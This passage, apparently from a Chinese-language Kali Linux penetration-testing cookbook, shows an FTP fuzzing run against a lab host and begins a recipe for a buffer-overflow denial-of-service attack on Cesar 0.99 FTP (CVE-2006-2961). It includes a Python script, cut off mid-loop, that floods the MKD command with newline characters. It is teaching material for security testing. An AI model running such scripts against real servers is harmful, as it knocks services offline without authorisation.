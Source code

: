 ```
root@KaliLinux:~# ./ftp_fuzz.py 172.16.36.134 21 ABCD 100 500 
Enter ftp username: anonymous 
Enter ftp password: user@mail.com 
Enter FTP command to fuzz: MKD 
Sending 100 instances of payload (ABCD) to target 
Sending 200 instances of payload (ABCD) to target 
Sending 300 instances of payload (ABCD) to target
Sending 400 instances of payload (ABCD) to target 
Sending 500 instances of payload (ABCD) to target

There is no indication that the server has crashed
```

在所提供的示例中，载荷被定义为`ABCD`，并且该载荷的实例被定义为 100 的倍数，直到最大值 500。

### 工作原理

一般来说，缓冲区溢出能够导致拒绝服务，因为它们可能导致任意数据被加载到非预期的内存段。 这可能中断执行流程，并导致服务或操作系统崩溃。 此秘籍中讨论的特定脚本的工作原理是，在服务或操作系统崩溃的情况下，套接字将不再接受输入，并且脚本将无法完成整个载荷注入序列。 如果发生这种情况，脚本需要使用`Ctrl + C`强制关闭。在这种情况下，脚本会返回一个标志，表示后续的载荷无法发送，并且服务器可能已崩溃。

## 6.2 FTP 远程服务的缓冲区溢出 DoS 攻击

在正确的情况下，输入数据可能逃离其指定的缓冲区并流入相邻的寄存器或内存段。 此过程将中断执行流程并导致应用程序或系统崩溃。 在某些情况下，缓冲区溢出漏洞也可以用于执行未经授权的代码。 在这个特定的秘籍中，我们基于 Cesar 0.99 FTP 服务的缓冲区溢出，展示如何执行 DoS 攻击的示例。

### 准备

为了执行远程模糊测试，你需要有一个运行 TCP 或 UDP 网络服务的系统。 在提供的示例中，使用了拥有 FTP 服务的 Windows XP 系统。 有关设置 Windows 系统的更多信息，请参阅本书第一章的“安装 Windows Server”秘籍。 此外，本节需要使用文本编辑器（如 VIM 或 Nano）将脚本写入文件系统。 有关编写脚本的更多信息，请参阅本书第一章的“使用文本编辑器（VIM 和 Nano）”秘籍。

### 操作步骤

有一个公开披露的漏洞与 Cesar 0.99 FTP 服务相关。 此漏洞由常见漏洞和披露（CVE）编号系统定义为 CVE-2006-2961。 通过对此漏洞进行研究，显然可以通过向 MKD 函数发送换行字符的验证后序列，来触发基于栈的缓冲区溢出。 为了避免将`\ n`转义序列传递给 Python 脚本，以及之后在提供的输入中正确解释它的相关困难，我们应该修改先前秘籍中讨论的脚本。 然后，我们可以使用修改的脚本来利用此现有漏洞：

```py
#!/usr/bin/python

import socket 
import sys

if len(sys.argv) != 5:   
    print "Usage - ./ftp_fuzz.py [Target-IP] [Port Number] [Interval] [Maximum]"   
    print "Example - ./ftp_fuzz.py 10.0.0.5 21 100 1000"   
    print "Example will fuzz the defined FTP service with a series of line break "   
    print "characters to include 100 '\\n's, 200 '\\n's, etc... up to the maximum of 1000"   
    sys.exit()

target = str(sys.argv[1]) 
port = int(sys.argv[2]) 
i = int(sys.argv[3]) 
interval = int(sys.argv[3]) 
max = int(sys.argv[4]) 
user = raw_input(str("Enter ftp username: ")) 
passwd = raw_input(str("Enter ftp password: ")) 
command = raw_input(str("Enter FTP command to fuzz: "))

while i <= max:   
    try:      
        payload = command + " " + ('\n' * i)      
        print "Sending " + str(i) + " line break characters to target"      
```
